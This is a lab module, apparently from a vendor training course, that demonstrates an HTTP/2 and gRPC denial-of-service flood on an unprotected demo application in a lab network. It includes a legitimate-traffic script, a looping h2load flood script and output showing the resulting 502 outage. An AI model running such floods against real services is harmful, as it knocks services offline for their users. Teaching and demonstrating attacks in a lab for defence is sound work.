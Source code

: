 Module 1 - HTTP/2 and GRPC DoS Attack on Unprotected Application
################################################################

| In this module you will generate **good** and malicious traffic. With the addition of malicious traffic will cause the good traffic to error out. We
| will utilize HTTP/2 and gRPC as part of this module.

Demonstrate the effects of an HTTP/2 and gRPC attacks on an unprotected application
-----------------------------------------------------------------------------------

Generate legitimate traffic 
   1. In UDF, Click on Access for the **legitimate traffic** VM and select WebShell (or ssh into the box if you set that up)
   2. We will utilize the good.sh bash script in order to generate HTTP 1 traffic using **curl**, HTTP 2 traffic using **h2load** and using Python3 with route_guide_client to generate gRPC traffic.

.. code-block:: bash 
   :caption: /good.sh

   #!/bin/bash
   cd /grpc/examples/python/route_guide/

   IP=10.1.1.4
   PORT=600
   URI='good_path.html'

   declare -a array=("/#/login" "/#/about" "/assets/public/images/products/apple_pressings.jpg" "/#/search")

   while true; do
   echo
   python3 /grpc/examples/python/route_guide/route_guide_client.py  2>&1 | grep "Finished\|502"
   h2load -n 10 -c 10 --header="te: trailers " --ciphers=AES128-GCM-SHA256  https://10.1.1.4:443/testing/ &> /dev/null

   URI=${array[$(( RANDOM % 3 ))]}
   curl -b cookiefile -c cookiefile -L -s -o /dev/null -w "JUICESHOP HTTP Code:%{http_code}\n" -A "Mozilla/5.0 (iPhone; U; CPU iPhone OS 4_3_3 like Mac OS X; en-us) AppleWebKit/533.17.9 (KHTML, like Gecko) Version/5.0.2 Mobile/8J2 Safari/6533.18.5" -H "X-Forwarded-For: 3.3.3.1" http://${IP}:${PORT}/${URI} &
   echo
   URI=${array[$(( RANDOM % 3 ))]}
   curl -b cookiefile -c cookiefile -L -s -o /dev/null  -A "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_6_8) AppleWebKit/534.30 (KHTML, like Gecko) Chrome/12.0.742.112 Safari/534.30" -H "X-Forwarded-For: 3.3.3.2" http://${IP}:${PORT}/${URI} &
   URI=${array[$(( RANDOM % 3 ))]}
   curl -b cookiefile -c cookiefile -L -s -o /dev/null  -A "Mozilla/5.0 (Windows; U; Windows NT 5.1; de; rv:1.9.2.3) Gecko/20100401 Firefox/3.6.3" -H "X-Forwarded-For: 3.3.3.3" http://${IP}:${PORT}/${URI} &


3. Run the good traffic shell script:

``./good.sh``
    
Output from the script: 

.. code:: shell 
 
   JUICESHOP HTTP Code:200 Finished trip with 10 points

   JUICESHOP HTTP Code:200 Finished trip with 10 points

   JUICESHOP HTTP Code:200 Finished trip with 10 points 


Start HTTP/2 Flood attack
   1. Back in the UDF, click 'Access' on the **Attacker** VM and select WebShell

.. code-block:: bash
   caption: http2flood.sh

   #!/bin/sh
   while true; do
      h2load -n 10000 -c 1000 http://10.1.1.4:500/routeguide.RouteGuide/GetFeature
   done


2. Run the http2 flood script:

 ``. /scripts/http2flood.sh``

Attack script Output

.. code:: shell 

   finished in 1.07s, 9350.31 req/s, 2.09MB/s
  requests: 10000 total, 10000 started, 10000 done, 0 succeeded, 10000 failed, 0 errored, 0 timeout
  status codes: 0 2xx, 0 3xx, 0 4xx, 10000 5xx
  traffic: 2.23MB (2339000) total, 527.34KB (540000) headers (space savings 45.45%), 1.50MB (1570000) data
                       min         max         mean         sd        +/- sd
  time for request:      625us       1.02s     52.83ms     25.29ms    85.84%
  time for connect:     9.42ms     28.08ms     20.14ms      4.61ms    70.10%
  time to 1st byte:    35.60ms       1.04s     96.07ms     66.04ms    99.60%
  req/s           :       9.56       21.66       17.79        1.69    72.90%
  starting benchmark...
  spawning thread #0: 1000 total client(s). 10000 total requests
  Application protocol: h2c
  progress: 10% done
  progress: 20% done
  progress: 30% done
  progress: 40% done
  progress: 50% done
  progress: 60% done
  progress: 70% done
  progress: 80% done
  progress: 90% done
  progress: 100% done

3. Click back on to the WebShell on the legitimate VM. Did the output from the script change? Output now shows the HTTP/2 service is experiencing an outage.

.. code:: shell

  JUICESHOP HTTP Code:200
        details = "Received http2 header with status: 502"
        debug_error_string = "{"created":"@1650395963.222837020","description":"Received http2 :status header with non-200 OK status","file":"src/core/ext/filters/http/client/http_client_filter.cc","file_line":134,"grpc_message":"Received http2 header with status: 502","grpc_status":14,"value":"502"}"

4. Stop the HTTP2Flood attack, by pressing Ctrl-C
